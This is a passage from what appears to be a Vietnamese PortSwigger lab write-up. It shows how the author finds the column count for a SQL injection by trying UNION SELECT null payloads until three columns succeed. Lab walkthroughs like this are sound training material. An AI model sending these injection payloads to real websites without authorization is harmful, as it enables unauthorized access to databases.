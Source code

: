 - Tiếp theo mình sẽ thử truy vấn 1 cột nhưng vẫn lỗi tức là truy vấn sai
```
' UNION SELECT null--
```
> ![](WU_Portswigger_files/4.png)
- Mình tiếp tục thử với số lượng lớn hơn: 4 cột và vẫn lỗi như vậy.
```
' UNION SELECT null, null, null, null--
```
- Thử tiếp với 3 cột và thành công.
```
' UNION SELECT null,  null, null--
```
> ![](WU_Portswigger_files/5.png)